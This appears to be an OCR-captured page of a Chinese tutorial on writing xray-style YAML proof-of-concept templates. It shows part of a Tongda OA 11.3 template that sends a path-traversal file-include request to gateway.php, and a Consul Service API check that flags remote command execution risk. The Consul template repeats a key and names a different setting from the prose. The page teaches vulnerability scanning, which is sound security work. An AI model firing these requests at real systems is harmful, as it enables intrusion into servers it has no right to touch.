 ```yaml
    follow_redirects: false
    expression: |
      response.status == 200
    search: (?P<dirname>200\d)_(?P<filename>\d+)
  - method: POST
    path: /ispirit/interface/gateway.php
    headers:
      User-Agent: 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36'
      Content-Type: 'application/x-www-form-urlencoded'
      Accept-Encoding: 'deflate'
    body: |
        json={"url":"../../../general/../attach/im/{{dirname}}/{{filename}}.jpg"}
    expression: |
      response.status == 200 && response.body.bcontains(bytes(string(rand)))
detail:
  author: 清风明月(www.secbook.info)
  demo_tongda_version: 'tongda-oa-11.3'
  links:
    - https://cdndown.tongda2000.com/oa/2019/TDOA11.3.exe
    - https://www.anquanke.com/post/id/201174
    - https://github.com/fuhei/tongda_rce/blob/master/tongda_rce.py

```



# 编写测试

高效率编写poc学习文章：
https://docs.xray.cool/#/guide/high_quality_poc

https://paper.seebug.org/9/



这里简单编写一下某src发现的**Consul Service API远程命令执行漏洞**

该漏洞访问/v1/agent/self路径，响应中EnableLocalScriptChecks": true即可大概率判断存在远程命令执行漏洞,非常容易写poc进行判断

```yaml
name: poc-yaml-ConsulServiceApi_rce
rules:
  - method: GET
    path: "/v1/agent/self"
    expression: "true"
    expression: |
      status == 200 && body.contains(b'"EnableRemoteScriptChecks": true')
```

漏洞详情：https://www.imzzj.com/2019/07/04/hashicorp-consul-service-api-yuan-cheng-ming-ling-zhi-xing-lou-dong.html









